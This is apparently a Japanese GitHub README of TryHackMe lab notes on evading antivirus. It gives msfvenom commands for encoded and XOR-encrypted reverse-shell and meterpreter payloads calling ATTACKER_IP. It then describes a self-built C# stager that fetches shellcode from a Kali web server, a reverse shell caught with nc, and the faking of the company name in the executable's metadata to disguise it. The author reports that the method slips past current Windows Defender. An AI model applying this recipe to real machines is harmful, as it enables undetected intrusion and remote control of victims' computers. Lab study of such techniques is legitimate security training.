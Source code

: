 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー([hoge.cs](https://github.com/yokohama/thm/blob/main/avevasionshellcode/task7/hoge.cs))を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行
```
>hoge.exe
```

![image](https://github.com/yokohama/thm/assets/1023421/f99c50cc-3053-43c8-ace7-9f04628b1c11)



### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)
```
>hoge.exe
```

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![スクリーンショット 2024-06-25 131542](https://github.com/yokohama/thm/assets/1023421/4ba88b4f-dabe-42dd-b933-7238d0eb54d9)

### process explorerなどで見た時の会社名を加工する

1. RC(リソース・スクリプト(テキスト))_ファイルの作成

今回は会社名を加工したい。[こちら](https://github.com/yokohama/thm/blob/main/avevasionshellcode/task7/hoge.rc)を参照。

2. RCファイルをRES(リソース(バイナリ))ファイルに変換
- RCファイルをリソースコンパイラ (rc.exe) を使用して .res ファイルに変換する。RESファイルは、バイナリ形式のリソースデータを含むファイルで、アプリケーションの実行ファイルに組み込むためのリソース情報を格納する。
- いろいろ `\i` で、インクルードしないと実行できなかった。
```
>"C:\Program Files (x86)\Windows Kits\10\bin\10.0.22621.0\x64\rc.exe" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\um" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\shared" /fo"hoge.res" "hoge.rc"
```

3. RESファイルを使用してCSファイルをコンパイルし、EXEファイルを作成

- C# コンパイラ (csc.exe) を使用して、.cs ファイルと .res ファイルから実行可能ファイル .exe を生成。このステップでは、リソースファイルが実行ファイルに組み込まれ、最終的な製品に会社名やその他の情報を含めることができる。
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:hoge.exe /win32res:hoge.res hoge.cs
```

![スクリーンショット 2024-06-25 232911](https://github.com/yokohama/thm/assets/1023421/4c98d8e1-5cc1-4e54-8954-749155cabb1f)


